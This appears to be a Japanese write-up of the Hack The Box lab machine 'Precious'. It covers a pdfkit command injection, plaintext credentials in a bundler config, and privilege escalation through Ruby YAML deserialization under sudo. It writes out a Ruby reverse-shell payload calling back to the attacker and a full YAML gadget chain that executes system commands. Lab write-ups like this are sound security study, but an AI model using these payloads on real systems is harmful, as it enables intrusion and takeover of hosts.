 ## Precious
IP: 10.10.11.189  
Port: 22/tcp, 80/tcp  
Domain: precious.htb  
Sub Domain: no  
  
nmapでポートスキャンを行う。  
![](images/Precious/1.png)  

80番ポートが開いているので、ブラウザでアクセスを行う。  
![](images/Precious/2.png)  

Locationヘッダーに`http://precious.htb/`がセットされており、  
リダイレクトされるが、DNSに`precious.htb`に対応するIPアドレスが設定されていないため、  
アクセスができない。  
名前解決を行う順番は`/etc/nsswitch.conf`の`hosts:`に定義されており、  
私の環境では、ファイル(/etc/hosts) -> mdns4 -> dnsという順番である。  
`/etc/hosts`にドメイン`precious.htb`に対応するIPアドレス`10.10.11.189`を設定する。  
再度、ブラウザからアクセスしてみる。

![](images/Precious/3.png)

入力フォームに適当な値を入れSubmitをすると、  
urlパラメータに乗せられてサーバーにurlを届けるみたい。  

自分の環境でWebサーバーを建てて、urlに自分のipアドレスを入れてみる。  
![](images/Precious/4.png)

返答が返ってきたと同時に、PDfファイルがダウンロードされた。  
ファイルを開く前に私は`string`コマンドや`file`コマンドを実行して、  
中身の構造を調べる習慣があるので実行する。  
![](images/Precious/5.png)

気になる記述がある。  
==pdfkit v0.8.6==  
ソフト名やバージョンの記述を見つけたら、既知の脆弱性が存在しないかを調べる。  
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795  
pdfkitパッケージのバージョンが`<0.8.7.2 `の場合に、URLが適切にサイタイジングされていないため、  
コマンドインジェクションの脆弱性が存在するらしい。  

Exploit Codeを探すと、以下のような形で行うらしい。  
```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait... 
```
なので、以下のような形でurlパラメータにセットしてリバースシェルを狙う。  
```
%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("ip",port))'`
```
`ruby`ユーザーでリバースシェルを獲得できた。  
![](images/Precious/7.png)

安定なシェルを行うため、`ssh-keygen`を実行し、秘密鍵を自分の環境にコピーしSSH接続を行う。  
探索していくと、rubyユーザーのホームディレクトリの隠しディレクトリに`config`というファイルを見つける。  
この`config`ファイルというのは、Rubyのバージョン管理ツールである`bundler`で使用される設定ファイルである。  
中身を見ると、`user:password`の形で保存されており、この資格情報を使いhenryユーザーにログインできそうである。  
![](images/Precious/8.png)  


資格情報を使い、henryユーザーにログインを行う。  
ここで`user.txt`のuserフラグをゲットすることができる。  

続いて権限昇格を行うため、  
SUIDの設定不備を利用したものや、cronを利用したものなどたくさん存在する。  
詳しくはこちら(https://book.hacktricks.xyz/linux-hardening/privilege-escalation)  

そして、`sudo -l`の結果でroot権限で特定のコマンドを実行することが可能な設定がされているのを見つける。  
`sudo`コマンドの`-l`オプションというのは、sudoを実行するユーザーに許可されているコマンドを一覧表示するというものだ。  
![](images/Precious/10.png)

`/opt/update_dependencies.rb`のRubyファイルを見てみると、  
```
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
と記述されており、中でも`YAML.load(File.read("dependencies.yml"))`のコードに不備が存在する。  
YAMLによるDeserializationの欠陥があり、以下のPayloadでコマンドを実行することができる。  
参考(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: <command>
         method_id: :resolve
```

`YAML.load(File.read("dependencies.yml"))`というように、`dependencies.yml`ファイルを読み込むので、  
先程のPayloadの`git_set`に`cat /root/root.txt > /home/henry/output`というようにしてrootフラグをゲットした。  
